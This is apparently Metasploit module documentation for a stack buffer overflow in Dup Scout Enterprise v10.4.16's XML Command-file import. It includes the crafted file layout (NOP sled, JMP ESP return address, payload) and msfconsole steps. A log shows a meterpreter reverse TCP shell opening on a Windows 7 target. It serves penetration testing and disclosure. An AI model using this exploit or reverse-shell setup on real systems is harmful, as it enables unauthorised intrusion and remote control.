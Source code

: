 ## Description

This module exploits a buffer overflow in `libpal.dll` that is used by [Dup Scout Enterprise v10.4.16](http://www.dupscout.com/setups/dupscoutent_setup_v10.4.16.exe). The buffer overflow occurs during a call to the `SCA_XmlParser::GetToken` function when a user-supplied Command file with a crafted name attribute is imported to the Dup Scout application. The `SCA_XmlParser::GetToken` function is passed a heap pointer as an argument, which was created by the `SCA_XmlParser::LoadXmlFile` function and contains data from the user-supplied Command file, and a pointer to a stack buffer that was created in the `SCA_XmlParser::ParseXmlElement` function. While parsing the name attribute, the `SCA_XmlParser::GetToken` function copies from the heap buffer to the stack buffer until a single quote (to match `name='`, or a double quote to match `name="`) is found or until it finishes reading from the allocated heap buffer.

## Vulnerable Application

The vulnerability can be exploited when the size of the name attribute is greater than 1560 bytes.

Note: The allocated stack buffer size is 1564 bytes but the first four bytes are filled with `\xff` during execution of the `SCA_XmlParser::GetToken` function.

Since the stack buffer was allocated as a local variable for the `SCA_XmlParser::ParseXmlElement` function, the program's control flow isn't taken over until the return of the `SCA_XmlParser::ParseXmlElement` function even though the return value is overwritten during execution of the `SCA_XmlParser::GetToken` function.

The format of the crafted Command file will be:

```
buf = "<?xml ?><a name='"
buf << make_nops(1560)   # Fill up the stack buffer
buf << addr_of_jmp_esp   # overwrite the return address for SCA_XmlParser::ParseXmlElement
buf << make_nops(16)     # account for ret 10h in SCA_XmlParser::ParseXmlElement
buf << inst1             # LEA EAX, [ESP+14h] # Prepare EAX to jump to payload
buf << inst2             # JMP EAX # Jump to our desired location
buf << make_nops(14)     # Fill past possibly corrupted location
buf << payload           # Location that is jumped to
```

Note: The last make_nops will offset the location of the payload. The offset is included to account for writes to the stack buffer that after the user-supplied Command file has been processed.

## Verification Steps

- [ ] Install Dup Scout Enterprise on target system
- [ ] `./msfconsole`
- [ ] `use exploit/windows/fileformat/dupscout_xml`
- [ ] `set payload windows/meterpreter/reverse_tcp`
- [ ] `set lhost <lhost>`
- [ ] `run`
- [ ] `use exploit/multi/handler`
- [ ] `set payload windows/meterpreter/reverse_tcp`
- [ ] `set lhost <lhost>`
- [ ] `run`
- [ ] From the DupScout Enterprise menu select Command -> Import Command
- [ ] Select file generated by metasploit
- [ ] Get a session


## Scenarios

### Dup Scout Enterprise v10.4.16 Windows 7 SP1 x64.

```
msf5 > use exploit/windows/fileformat/dupscout_xml
msf5 exploit(windows/fileformat/dupscout_xml) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/fileformat/dupscout_xml) > set lhost 172.22.222.120
lhost => 172.22.222.120
msf5 exploit(windows/fileformat/dupscout_xml) > run

[*] Creating 'msf.xml' file ...
[+] msf.xml stored at /home/msfdev/.msf4/local/msf.xml
msf5 exploit(windows/fileformat/dupscout_xml) > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 172.22.222.120
lhost => 172.22.222.120
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.22.222.120:4444 
[*] Sending stage (179779 bytes) to 172.22.222.122

meterpreter > getuid
Server username: .\pwnduser
meterpreter > sysinfo
Computer        : .
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```
